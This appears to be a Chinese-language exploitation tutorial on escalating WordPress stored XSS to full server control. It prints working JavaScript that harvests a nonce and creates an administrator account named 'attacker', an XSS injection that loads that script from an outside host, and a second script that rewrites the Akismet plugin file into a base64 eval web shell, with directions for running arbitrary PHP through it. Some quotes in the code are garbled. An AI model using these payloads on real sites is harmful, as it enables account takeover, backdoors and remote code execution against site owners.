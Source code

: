 ```yaml
---
title: （从xss到getshell） xss的深层次利用与探讨
id: zhfly3269
---
```


# （从xss到getshell） xss的深层次利用与探讨

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian@lcx.cc

## 通过js文件添加wp系统管理员

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin [.] js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为“ attacker”，密码为“ attacker”。

```
// Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
var ajaxRequest = new XMLHttpRequest();  
var requestURL = "/wordpress/wp-admin/user-new.php";  
var nonceRegex = /ser" value="([^"]*?)"/g;  
ajaxRequest.open("GET", requestURL, false);  
ajaxRequest.send();  
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and create a new user with an arbitrary username / password, as an Administrator

var params = “[action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com](mailto:action=createuser&_wpnonce_create-user=%22+nonce+%22&user_login=attacker&email=attacker@site.com)&pass1=attacker&pass2=attacker&role=administrator”;

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

然后，攻击者可以使用以下PoC插入JavaScript。

```
“"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;” 
```

### 图1.插入XSS代码以添加管理员帐户

![image](../img/97ceaf33f091c57249f5bac277b01c95.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户“攻击者”。

### 图2\. XSS代码被执行

![image](../img/a9c6006dc97746273d6edc47e7eb9bf3.png)

### 图3\. XSS代码创建的具有管理员权限的“攻击者”帐户

![image](../img/18854193a8135c45a3969739dad7d9be.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![image](../img/643e2f2cc70e08b3ae62893f603f0edc.png)

图5.控制Web服务器

![image](../img/d929883375e2106e48ef99b1b0f7340f.png)

### 2、恶意命令执行

```
// Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
var nonceRegex = /ce" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1]; `// Construct a POST query, using the previously extracted ‘nonce’ value, and update the content of the file ‘akismet/index.php’ with our tiny web shell

var params = “_wpnonce=”+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST[‘x’]));&action=update&file=akismet/index.php"

ajaxRequest = new XMLHttpRequest();

ajaxRequest.open(“POST”, requestURL, true);

ajaxRequest.setRequestHeader(“Content-Type”, “application/x-www-form-urlencoded”);

ajaxRequest.send(params);` 
```

一旦此XSS被管理用户触发，我们应该能够通过向脚本

http://0-sec.org/wp-content/plugins/akismet/index.php

发送GET / POST请求来执行任意PHP代码，其中参数“ x”等于我们的PHP代码的“ base64_encode”。
